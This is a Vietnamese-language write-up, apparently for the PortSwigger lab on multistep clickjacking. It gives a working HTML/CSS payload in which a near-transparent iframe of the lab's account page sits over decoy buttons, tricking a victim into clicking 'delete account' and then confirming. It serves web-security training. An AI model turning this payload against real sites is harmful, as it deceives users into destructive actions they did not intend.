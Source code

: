 # Multistep clickjacking

Tấn công **Multistep clickjacking** - Clickjacking đa bước xảy ra khi kẻ tấn công cần thực hiện nhiều thao tác để thao túng đầu vào trên một trang web mục tiêu. Ví dụ, kẻ tấn công có thể muốn lừa người dùng mua hàng trên một trang bán lẻ. Trong trường hợp này, các bước có thể bao gồm:

1. **Thêm sản phẩm vào giỏ hàng**: Người dùng bị lừa click chuột để thêm sản phẩm vào giỏ hàng.

2. **Xác nhận đơn hàng**: Tiếp tục dụ người dùng click chuột để đặt hàng hoặc thanh toán. 

**Cách thực hiện tấn công**

- **Nhiều iframe hoặc div**: Kẻ tấn công sử dụng nhiều iframe hoặc các vùng phân chia (div) khác nhau, mỗi vùng đại diện cho một bước cụ thể trong quy trình (ví dụ: thêm sản phẩm, xác nhận thanh toán).

- **Căn chỉnh chính xác**: Kẻ tấn công phải căn chỉnh các phần tử này một cách chính xác để người dùng không nhận ra họ đang tương tác với các trang web mục tiêu thay vì giao diện thật.

- **Ẩn iframe**: Tương tự các kỹ thuật clickjacking khác, kẻ tấn công làm iframe trong suốt hoặc che khuất nội dung thật để đánh lừa người dùng.

**Tóm lại**

Tấn công clickjacking đa bước yêu cầu kẻ tấn công cẩn thận thiết kế giao diện và thao tác chính xác để lừa người dùng thực hiện các hành động liên tiếp. Tuy nhiên, đây là một phương pháp phức tạp và đòi hỏi sự tỉ mỉ cao để đạt hiệu quả.

# Lab: Multistep clickjacking
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image25.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image26.png?raw=true)

### Solution

Login vào account được cấp: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image27.png?raw=true)

Đối với bài lab này, khi click vào button Delete account trên endpoint /my-account, endpoint /delete được hiển thị để confirm: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image28.png?raw=true)

--> Payload sẽ cần 2 thẻ div cho 2 button, có dạng như sau:

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:$top_value1;
            left:$side_value1;
            z-index: 1;
        }
    .secondClick {
            top:$top_value2;
            left:$side_value2;
        }
    </style>
    <div class="firstClick">Test me first</div>
    <div class="secondClick">Test me next</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

Chỉnh sửa payload: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 0.1;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    .secondClick {
            top:400px;
            left:100px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a3f00c4043dd6d983ea335b00830069.web-security-academy.net/my-account"></iframe>

Copy payload vào phần body trong exploit server, store và view exploit: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image29.png?raw=true)

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image30.png?raw=true)

Chỉnh sửa lại button Click me next: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image31.png?raw=true)

Payload cuối cùng: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 0.1;
            z-index: 2;
        }
        .firstClick, .secondClick {
            position:absolute;
            top:515px;
            left:50px;
            z-index: 1;
        }
        .secondClick {
            top:310px;
            left:200px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a8a008004a0672080f10dcd0069006f.web-security-academy.net/my-account"></iframe>

Store và Deliver exploit to victim.

Solved the lab!

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image32.png?raw=true)










